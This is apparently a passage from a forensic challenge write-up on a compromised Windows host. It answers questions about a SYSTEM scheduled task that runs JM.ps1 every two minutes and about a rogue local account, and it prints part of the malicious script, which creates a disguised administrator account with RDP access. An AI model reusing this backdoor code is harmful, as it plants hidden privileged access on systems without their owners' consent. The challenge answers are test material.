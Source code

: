 3. This scheduled task is a classic persistence technique: it ensures the malicious script is executed repeatedly and with elevated privileges even after reboots or user logoffs.

**Why this matters**  

1. As the first observed persistence element, SysHelper Update likely represents the initial mechanism the attacker installed to maintain access to the host.

2. Because it runs as SYSTEM and executes a script from a user-writable folder (C:\Users\Werni\Appdata\Local\JM.ps1), it provides a highly reliable foothold and a convenient location for the attacker to update or swap the payload.

3. The extremely short interval (every 2 minutes) suggests the attacker intended near-continuous control or wanted rapid re-establishment if their payload was terminated.

**Conclusion:**

```velocity
SysHelper Update
```
## Question 6:
Identify the script executed by the persistence mechanism. (C:\FOLDER\PATH\FILE.ext)

-Similarly, in question 5, the answer is

**Conclusion:**

```velocity
C:\Users\Werni\Appdata\Local\JM.ps1
```

## Question 7:
What local account did the attacker create? (string)

**Evidence & where it was found**

1. Windows Security log (Event ID 4720 — User Account Created):

- he XML view of the 4720 event shows TargetUserName = svc_netupd. This is a direct event that records the creation of a local user account. The presence of this field is authoritative evidence the account was created on the host.

2. Malicious script JM.ps1 (recovered from C:\Users\Werni\AppData\Local\JM.ps1):

- The script contains:

```velocity
# List of potential usernames
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")

# Check for existing user
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}

# If none exist, create a new one
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser

    # Enable RDP
```